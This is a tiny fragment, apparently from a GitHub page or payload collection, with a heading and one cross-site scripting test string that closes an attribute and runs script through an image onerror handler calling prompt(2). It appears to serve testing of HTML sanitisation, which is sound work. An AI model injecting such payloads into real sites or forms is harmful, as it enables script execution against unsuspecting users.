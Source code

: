 ---img-src-x-onerror-prompt-2---
================================

">&lt;img src=x onerror=prompt(2);>
